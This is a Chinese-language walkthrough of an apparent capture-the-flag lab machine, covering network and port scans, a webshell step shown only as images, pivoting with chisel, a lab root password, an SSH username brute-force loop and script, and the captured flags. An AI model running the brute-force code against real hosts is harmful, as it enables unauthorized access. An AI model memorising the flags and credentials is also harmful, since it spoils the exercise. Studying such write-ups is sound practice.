## 网段扫描
```
root@LingMj:/home/lingmj/xxoo# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:df:e2:a7, IPv4: 192.168.56.110
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:12       (Unknown: locally administered)
192.168.56.100  08:00:27:57:02:0a       PCS Systemtechnik GmbH
192.168.56.136  08:00:27:ce:5c:e9       PCS Systemtechnik GmbH

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.350 seconds (108.94 hosts/sec). 3 responded
```

## 端口扫描

```
root@LingMj:/home/lingmj/xxoo# nmap -p- -sC -sV 192.168.56.136
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-05 06:48 EST
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.136
Host is up (0.0094s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 08:00:27:CE:5C:E9 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.92 seconds
```

## 获取webshell
  
  

>来自flower大佬的poc
>
  
  

>接着群主的getshell，poc
>
  
  


## 提权

```
root@debian1:/var/log/apache2# nmap -p- 10.10.10.10/24
Starting Nmap 7.93 ( https://nmap.org ) at 2025-02-05 13:59 UTC

root@debian1:/var/log/apache2# ssh root@10.10.10.20
bash: ssh: command not found
root@debian1:/var/log/apache2# nmap -p- 10.10.10.10/24
Starting Nmap 7.93 ( https://nmap.org ) at 2025-02-05 13:59 UTC
Nmap scan report for 10.10.10.1
Host is up (0.000027s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:EE:E1:39:28 (Unknown)

Nmap scan report for debian2.private (10.10.10.20)
Host is up (0.00013s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE
2222/tcp open  EtherNetIP-1
MAC Address: 02:42:0A:0A:0A:14 (Unknown)

Nmap scan report for debian1 (10.10.10.10)
Host is up (0.000049s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
8080/tcp open  http-proxy

Nmap done: 256 IP addresses (3 hosts up) scanned in 27.20 seconds
```

>我socat失败了，选择利用chisel
>

 
  

  


>用户和密码：root:$uP3r_$3cUr3_D0ck3r
>

  

  

  

>无密码使用脚本： for i in $(cat /usr/share/seclists/Usernames/Names/names.txt);do ssh $i@192.168.56.136 -i id;done 
>

  

  

>好到这里结束了，非常有意思的靶场，不过上面没一样是我写的，后面复盘会补充自己的其他方案
>


>userflag:af13f20ce2fb4266b4d381cf8f60f85f
>
>rootflag:f3a421bdd1e5119f49c3fda29838cf79
>


>其他补充：21匿名登录的方案和robots.txt方案
>

  
  
  
  
  

  
  

>当然美化爆破ssh的方案也有
>


```
#!/bin/bash

host=your_host
user_file=brute_name_file
id_rsa_file=your_id_rsa


while read i
do
    timeout 1 ssh ${i}@$host -i $id_rsa_file id &>/dev/null
    if [ $? -eq 0 ];then
        echo "[+]Found: $i"
        break
    else
        echo "[-]test:  $i"
    fi
    sleep 0.1
done < $user_file
```
